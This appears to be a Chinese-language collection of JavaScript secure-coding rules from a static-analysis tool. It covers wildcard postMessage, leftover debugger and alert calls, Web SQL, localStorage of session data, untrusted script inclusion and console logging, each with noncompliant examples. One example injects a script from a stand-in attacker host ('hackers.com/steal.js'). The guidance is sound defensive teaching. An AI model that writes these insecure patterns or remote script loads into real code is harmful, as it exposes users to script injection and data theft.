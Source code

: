 ## 应谨慎限制跨文档消息传递域

HTML5增加了向其他域提供的文档发送消息的功能。根据规格：

> 作者不应在包含任何机密信息的邮件中的targetOrigin参数中使用通配符关键字（*），否则无法保证邮件仅传递给其预期的收件人。

为了降低将敏感信息发送到从恶意或未知域提供的文档的风险，每次使用Window.postMessage时，此规则都会引发问题。

**不合规的代码示例**
```
var myWindow = document.getElementById('myIFrame').contentWindow;
myWindow.postMessage(message, "*"); // 不合规; how do you know what you loaded in 'myIFrame' is still there?
```

**参考**
  * OWASP Top 10 2017 Category A7 - Cross-Site Scripting (XSS)


## 不应使用调试器语句

调试器语句可以放在过程中的任何位置以暂停执行。使用调试器语句类似于在代码中设置断点。根据定义，必须绝对从源代码中删除此类语句，以防止任何意外行为或增加生产中的攻击漏洞。

**不合规的代码示例**
```
for (i = 1; i<5; i++) {
  // Print i to the Output window.
  Debug.write("loop index is " + i);
  // Wait for user to resume.
  debugger;
}
```

**合规解决方案**
```
for (i = 1; i<5; i++) {
  // Print i to the Output window.
  Debug.write("loop index is " + i);
}
```

**参考**
  * [MITRE, CWE-489](http://cwe.mitre.org/data/definitions/489.html) - Leftover Debug Code
    * OWASP Top 10 2017 Category A3 - Sensitive Data Exposure


## 不应使用 alert(...)

alert(...)以及confirm(...)和prompt(...)对于开发期间的调试很有用，但在生产模式下，这种弹出窗口可能会将敏感信息暴露给攻击者，并且永远不应该显示。

**不合规的代码示例**
```
if(unexpectedCondition) {
  alert("Unexpected Condition");
}
```

**参考**
  * [MITRE, CWE-489](http://cwe.mitre.org/data/definitions/489.html) - Leftover Debug Code
  * OWASP Top 10 2017 Category A3 - Sensitive Data Exposure


## 不应使用Web SQL数据库

Web SQL数据库标准从未见过光明。它首先制定，然后由W3C弃用，并且仅在某些浏览器中实现。（Firefox或IE不支持。）

此外，使用Web SQL数据库会引起安全问题，因为您只需要其名称即可访问此类数据库。

**不合规的代码示例**
```
var db = window.openDatabase("myDb", "1.0", "Personal secrets stored here", 2*1024*1024);  // 不合规
```


## 不应使用本地存储

会话存储和本地存储是HTML 5的功能，允许开发人员轻松存储客户端的兆字节数据，而不是4Kb cookie可以容纳的数据。尽管在客户端加速应用程序非常有用，但以这种方式存储敏感信息可能会很危险，因为默认情况下数据未加密，并且页面上的任何脚本都可以访问它。

使用localStorage和sessionStorageAPI 时，此规则会引发问题。

**不合规的代码示例**
```
localStorage.setItem("login", login); // 不合规
sessionStorage.setItem("sessionId", sessionId); // 不合规
```

**参考**
  * OWASP Top 10 2017 Category A3 - Sensitive Data Exposure
  * [Packet Storm Security](https://dl.packetstormsecurity.net/papers/attack/HTML5AttackVectors_RafayBaloch_UPDATED.pdf) - HTML 5 Modern Day Attack And Defence Vectors


## 不应包含不受信任的内容

从不受信任的来源中包含您网站中的内容可能会将您的用户暴露给攻击者，甚至会破坏您自己的网站。因此，此规则会为每个非相对URL引发问题。

**不合规的代码示例**
```
function include(url) {
  var s = document.createElement("script");
  s.setAttribute("type", "text/javascript");
  s.setAttribute("src", url);
  document.body.appendChild(s);
}
include("http://hackers.com/steal.js")  // 不合规
```

**参考**
  * [MITRE, CWE-829](http://cwe.mitre.org/data/definitions/829) - Inclusion of Functionality from Untrusted Control Sphere
  * OWASP Top 10 2017 Category A1 - Injection
  * [SANS Top 25](https://www.sans.org/top25-software-errors/#cat2) - Risky Resource Management


## 不应使用控制台日志记录

调试语句在开发过程中始终有用。但是将它们包含在生产代码中 - 特别是在运行客户端的代码中 - 并且存在无意中暴露敏感信息，减慢浏览器速度，甚至为某些用户错误输出网站的风险。

```
console.log(password_entered); // 不合规
```

**参考**
  * OWASP Top 10 2017 Category A3 - Sensitive Data Exposure

